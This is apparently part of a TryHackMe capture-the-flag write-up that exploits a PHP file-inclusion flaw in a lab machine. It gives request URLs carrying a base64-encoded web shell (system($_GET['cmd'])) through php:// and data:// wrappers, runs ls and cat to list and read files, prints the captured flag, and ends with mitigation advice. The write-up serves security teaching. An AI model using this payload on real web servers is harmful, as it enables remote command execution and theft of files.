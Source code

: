 ```
http://10.10.172.219/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls
```

![](Pasted%20image%2020250506162110.png)

We got a flags directory, we can see the contents of it using:

```
http://10.10.172.219/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls%20-la%20flags
```

![](Pasted%20image%2020250506162437.png)

We can see the file, let's read it:

```
http://10.10.172.219/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=cat%20flags%2Fcd3c67e5079de2700af6cea0a405f9cc.txt
```

![](Pasted%20image%2020250506162524.png)

There we go, we got our flag:

```
THM{fl4g_cd3c67e5079de2700af6cea0a405f9cc} 
```

## Conclusion

***

File Inclusion and Path Traversal vulnerabilities arise from improper handling of user-supplied input in web applications. In File Inclusion, attackers exploit the way web applications handle files, leading to Local File Inclusion or Remote File Inclusion. On the other hand, Path Traversal involves navigating the server's directory structure to access files outside the intended directory. Both vulnerabilities can be used to access unauthorized data or system compromise.

**Mitigation and Prevention Strategies**

1. Ensure all user inputs are properly validated and sanitized. This is a crucial step to prevent attackers from manipulating file paths or including malicious files.
2. Implement allowlisting for file inclusion and access. Define which files can be included or accessed and reject any request that does not match these criteria.
3. Configure server settings to disallow remote file inclusion and limit the ability of scripts to access the filesystem. For PHP, directives like `allow_url_fopen` and `allow_url_include` should be disabled if not needed.
4. Performing regular code reviews and security audits to identify potential vulnerabilities with the help of automated tools. Manual checks are also essential.
5. Ensure that everyone involved in the development process understands the importance of security. Regular training on secure coding practices can significantly reduce the risk of this vulnerability.
